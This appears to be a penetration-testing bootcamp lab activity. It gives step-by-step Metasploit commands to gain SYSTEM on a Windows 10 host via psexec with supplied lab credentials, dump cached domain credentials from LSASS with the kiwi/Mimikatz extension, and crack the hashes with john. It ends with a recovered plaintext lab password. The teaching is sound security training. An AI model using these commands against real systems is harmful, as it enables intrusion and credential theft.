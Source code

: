 ## Activity File: Credential Dumping

In this activity, you used the Metasploit `kiwi` extension to dump the credentials that are cached on the WIN10 machine.

### Instructions

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module. `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	- ![A screenshot depicts the results of the command.](/v2.5-Curriculum/1-Lesson-Plans/17-Pentesting-2/3/Images/psexecoptions.PNG)
	
3. Run the module with `run`

	- ![A screenshot depicts the results of the command.](/v2.5-Curriculum/1-Lesson-Plans/17-Pentesting-2/3/Images/runpsexec.PNG)

4. In your Meterpreter session, load the `kiwi` extension.

     - `load kiwi`

     ![A screenshot depicts the results of the command.](loadkiwi.PNG)

5. Once a new extension is loaded into Metasploit, it will update the help menu. View the `kiwi` command options by calling the help menu in Meterpreter.

     - `?`

     ![A screenshot depicts the results of the command.](kiwi.PNG)

6. Dump all of the cached credentials from LSASS using a `kiwi_cmd` command. Reference the following cheatsheet for Mimikatz. Pay attention to the "lsadump" section. 

	- [Mimikatz Cheatsheet](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49)

     **Note**: If the `kiwi` command is not dumping credentials as expected, try migrating to another process using the `migrate` command. Keep in mind that you'll want to migrate to another SYSTEM x64 process. 
	 
	 `kiwi_cmd lsadump::cache`
	 
	 ![A screenshot depicts the results of the command.](lsadump.PNG)

7. In the output, the hashes are displayed after the 'MsCacheV2 field'. MsCacheV2 is just the format of the hash. Save the hashes in the format `username:password`, as shown below.


	![A screenshot depicts the format of the hashes.](../../../Images/hashformat.PNG)
	
	Using `john`, attempt to crack the password. Your `john` command should use the flag --format=mscash2, e.g. `john --format=mscash2 hashes.txt`

	![Image of the hash being cracked with john](john.PNG)

8. You should now have the plaintext password to the new account, 'bbanner'.

	`bbanner:Winter2021`
                                                                                                                               
---
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



